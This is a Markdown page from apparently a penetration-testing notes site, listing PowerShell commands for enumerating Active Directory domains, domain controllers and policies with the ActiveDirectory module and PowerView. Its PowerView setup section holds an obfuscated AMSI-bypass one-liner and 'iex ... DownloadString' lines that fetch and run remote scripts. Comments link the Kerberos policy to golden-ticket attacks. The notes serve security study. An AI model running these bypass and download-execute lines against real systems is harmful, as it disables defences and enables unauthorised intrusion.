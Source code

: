 ```yaml
---
title: "Domains"
description: "Enumerating domains."
lead: "Enumerating information about domains using the ActiveDirectory PowerShell module and PowerView."
date: 2021-11-07T17:46:09+01:00
lastmod: 2021-11-07T17:46:09+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_enumeration"
weight: 5
toc: true
---
```


## ActiveDirectory Module

### Setup

```powershell
# If computer has internet access
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# If computer has no internet access, download repository
Import-Module .\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module .\ADModule\ActiveDirectory\ActiveDirectory.psd1

# Check if module has been imported correctly
Get-Command -Module ActiveDirectory
```

### Get current Domain

```powershell
Get-ADDomain
```

### Get Object of another Domain

```powershell
Get-ADDomain -Identity lab.local
```

### Get Domain SID for current Domain

```powershell
(Get-ADDomain).DomainSID
```

### Get Domain Controllers for current Domain

```powershell
Get-ADDomainController
```

### Get Domain Controllers for another Domain

```powershell
Get-ADDomainController -DomainName lab.local -Discover
```

## PowerView

### Setup

```powershell
# If it gets blocked by AMSI we can bypass it with
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Then load the module
Import-Module .\PowerView.ps1
. .\PowerView.ps1

# With internet access
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')
```

### Get current Domain

```powershell
Get-NetDomain
```

### Get Object of another Domain

```powershell
Get-NetDomain -Domain lab.local
```

### Get Domain SID for current Domain

```powershell
Get-DomainSID
```

### Get Domain Policy for current Domain

```powershell
Get-DomainPolicy
(Get-DomainPolicy)."System Access"
```

### Get Password Policy for another Domain

```powershell
(Get-DomainPolicy -Domain lab.local)."System Access"
```

### Get Kerberos Policy for e.g. Mimikatz Golden Tickets

```powershell
(Get-DomainPolicy -Domain lab.local)."Kerberos Policy"
```

### Get Domain Controllers for current Domain

```powershell
Get-NetDomainController
```

### Get Domain Controllers for another Domain

```powershell
Get-NetDomainController -Domain lab.local
```

### Enumerate all Gobal Catalogs in the Forest

```powershell
Get-ForestGlobalCatalog
```

### Turn a List of Computer Short Names to FQDNs, using a Global Catalog

```powershell
gc computers.txt | % {Get-DomainComputer -SearchBase "GC://GLOBAL.CATALOG" -LDAP "(name=$_)" -Properties dnshostname}
```

### Enumerate the current Domain Controller Policy

```powershell
$DCPolicy = Get-DomainPolicy -Policy DC
$DCPolicy.PrivilegeRights # user privilege rights on the dc...
```

### Enumerate the current Domain Policy

```powershell
$DomainPolicy = Get-DomainPolicy -Domain bufu-sec.local
$DomainPolicy.KerberosPolicy # useful for golden tickets ;)
$DomainPolicy.SystemAccess # password age/etc.
```
